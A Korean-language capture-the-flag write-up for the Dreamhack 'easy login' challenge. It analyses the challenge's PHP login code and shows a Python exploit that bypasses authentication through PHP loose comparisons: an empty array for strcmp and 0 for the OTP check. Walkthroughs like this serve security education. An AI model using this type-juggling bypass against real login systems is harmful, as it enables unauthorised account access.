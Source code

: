 ```yaml
---

---
```


## [Dreamhack] easy login

<br>

### 풀이

문제에 접속해보면 ID, PW, OTP를 입력하는 폼이 존재한다.

<img src="../images/2024-11-24-easy-login/image-20241124221037265.png" alt="image-20241124221037265" style="zoom: 50%;" />

<br>

소스 코드를 살펴보면 index.php와 login.php가 존재한다. `/login.php`에 들어가보면 index.php로 리다이렉션 되는 것으로 보아 login.php에서는 동작만 수행하고 index로 리다이렉션 시켜주는 것 같다.

<img src="../images/2024-11-24-easy-login/image-20241124221317721.png" alt="image-20241124221317721" style="zoom:50%;" />

<br>

`generatePassword` 함수를 분석해보면 인자로 패스워드 길이를 받고 `characters` 변수에 16진수 문자열들을 저장하고 `strlen`을 통해 16 값을 `charactersLength` 에 저장하고 있다. 다음으로 pw를 초기화 한 후, 반복문을 통해 `random_int`라는 난수 생성기 함수로 `$characters`에서 무작위로 하나의 문자를 선택하기 위해 0부터 15까지 돌면서 `pw` 에 저장한 후 반환한다.

```php
function generatePassword($length) {
    $characters = '0123456789abcdef';
    $charactersLength = strlen($characters);
    $pw = '';
    for ($i = 0; $i < $length; $i++) {
        $pw .= $characters[random_int(0, $charactersLength - 1)];
    }
    return $pw;
}
```

<br>

`gernerateOTP` 함수를 보면 `random_int` 함수로 0부터 999999까지의 난수를 생성하고, `strval` 함수로 문자열 형태로 변경해준다. 다음으로 `strpad` 함수로 6자리의 패딩을 맞춰주는데 왼쪽부터 0으로 채워주고 맨 앞에 P를 합쳐서 예로 `P000123` 처럼 OTP를 생성한다.

```php
function generateOTP() {
    return 'P' . str_pad(strval(random_int(0, 999999)), 6, "0", STR_PAD_LEFT);
}
```

<br>

로그인 입력 폼을 찾아보면 POST 메소드로 `login.php`에 id, pw, otp 데이터를 전송하고, 아래에는 div 태그로 `login()` 함수가 동작한다.

```php+HTML
    <div class="login-container">
        <h2>Login as admin to get flag<h2>
        <form action="login.php" method="post">
            <div class="form-group">
                <label for="id">ID</label>
                <input type="text" name="id"></br>
            </div>
            <div class="form-group">
                <label for="pw">PW</label>
                <input type="text" name="pw"></br>
            </div>
            <div class="form-group">
                <label for="otp">OTP</label>
                <input type="text" name="otp"></br>
            </div>
            <button type="submit" class="button">Login</button>
        </form>
        <div class="message">
            <?php login(); ?>
        </div>
```

<br>

`login.php` 에서는 POST 메소드로 `index.php`로 데이터를 전송하고, php 코드를 살펴보면 a 변수에 배열을 초기화하고, `foreach` 반복문을 사용해서 이전에 제출한 POST 데이터 값을 $k와 $v에 키와 벨류 형태로 배열이 만들어진다. j 변수에는 만들어진 배열을 json 데이터로 변환하고 이를 cred의 value 값으로 base64인코딩하여 index.php에 전송된다. 그리고 아래 스크립트 코드로 id가 `redir`인 폼이 자동으로 제출되도록 스크립트 코드가 작성되어 있다.

```php+HTML
<form id="redir" action="index.php" method="post">
    <?php
    $a = array();
    foreach ($_POST as $k => $v) {
        $a[$k] = $v;
    }

    $j = json_encode($a);
    echo '<input type="hidden" name="cred" value="' . base64_encode($j) . '">';
    ?>
</form>

<script type="text/javascript">
    document.getElementById('redir').submit();
</script>
```

<br>

`index.php`에서 소스 코드를 더 보면 `admin_pw` 변수에 32자리의 패스워드를 생성하고, otp도 `generateOTP` 함수로 생성하여 값을 저장하고 있다. `login` 함수를 분석해보면 다음과 같다.

1. cred 값이 비어있으면 안됨
2. cred 값을 base64 인코딩해야 함
3. cred 값을 base64 인코딩전에 json 데이터 변환해야 함 
4. id, pw, otp 값이 비어있으면 안됨
5. id가 admin이 아니면 hello, id가 리턴됨
6. 입력한 OTP 값과 OTP 값이 일치하는지 확인
7. strcmp로 admin_pw와 입력한 pw를 비교

```php
$admin_pw = generatePassword(32);
$otp = generateOTP();

function login() {
    if (!isset($_POST['cred'])) {
        echo "Please login...";
        return;
    }

    if (!($cred = base64_decode($_POST['cred']))) {
        echo "Cred error";
        return;
    }

    if (!($cred = json_decode($cred, true))) {
        echo "Cred error";
        return;
    }

    if (!(isset($cred['id']) && isset($cred['pw']) && isset($cred['otp']))) {
        echo "Cred error";
        return;
    }

    if ($cred['id'] != 'admin') {
        echo "Hello," . $cred['id'];
        return;
    }
    
    if ($cred['otp'] != $GLOBALS['otp']) {
        echo "OTP fail";
        return;
    }

    if (!strcmp($cred['pw'], $GLOBALS['admin_pw'])) {
        require_once('flag.php');
        echo "Hello, admin! get the flag: " . $flag;
        return;
    }

    echo "Password fail";
    return;
}
```

<br>

이번 문제는 php 문제에서 거의 몇 번씩 나오는 strcmp와 != 비교에서 취약점을 찾아야한다. `strcmp` 함수의 경우 일치할 경우 0을 반환하고 틀릴 경우 1을 반환하게 되는데 여기서 값으로 빈 배열을 넣어주면 NULL이 되고 결국 NULL== 0이 되기 때문에 이를 우회할 수 있다. 또한 otp 같은 경우도 !=로 비교하지만 P로 시작하는 문자열을 0이라는 값과 비교하게 되면 비교하게 되는 문자열이 숫자형으로 변환되면서 0으로 변환된다. 따라서 0으로 값을 넣어주면 우회할 수 있다.

<br>

아래와 같이 페이로드를 작성해보면 id, pw, otp에 값을 넣어주고, 해당 값을 json으로 형변환하고, base64로 인코딩 해주어야 하기 때문에 `json.dumps()`로 형 변환해준 후 base64로 인코딩하기 위해 바이트로 변환하기 위해서 `encode()` 함수까지 해주었다. 그 뒤 `base64.b64encode` 로 해당 바이트를 base64로 변환하고 이를 문자열로 변환하기 위해 decode까지 수행하여  데이터를 보내면 된다.

```python
import requests
import json
import base64

url = "http://host3.dreamhack.games:8775/index.php"

payload = {
    "id": "admin",
    "pw": [],
    "otp": 0
}

data = {
    "cred": base64.b64encode(json.dumps(payload).encode()).decode()
}

response = requests.post(url, data=data)

print(response.text)
```

<br>

아래와 같이 flag를 잘 획득한 것을 볼 수 있다.

![image-20241125001604037](../images/2024-11-24-easy-login/image-20241125001604037.png)
